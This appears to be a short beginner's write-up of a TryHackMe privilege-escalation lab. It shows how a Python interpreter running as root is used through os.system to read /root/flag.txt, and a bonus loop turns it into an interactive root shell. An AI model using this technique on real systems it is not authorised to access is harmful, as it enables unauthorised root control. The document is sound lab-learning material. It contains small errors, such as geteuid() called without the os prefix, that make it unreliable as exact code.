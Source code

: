 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.


# lets get in the machine and open python 
SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
Python 3.8.3.................... blablablablabla
'''

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
> import os

now, lets see if we are root. (euid = 0:root)

> geteuid()

'''
0
'''

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

> os.system("whoami")

'''
root
0
'''

note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

to get the flag we will do the following

> os.system("cat /root/flag.txt")

'''
THM{3asy_f14g_1m40}
'''
 
# -------------------------------------------------------------------------------
# bonus:

do you want to make your life easyer? (that's what python ment for)
 
> def A(i):

>	os.system(i)

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

A('whoami')
'''
root
0
'''

# Even better:

while True:
	i = input('CMD: ')
	os.system(i)
press return key (enter)

'''
CMD: 
'''
now we got ourself a loop and created our-self an easy root shell!

Hye! if you done the bonus why not get in to a python course?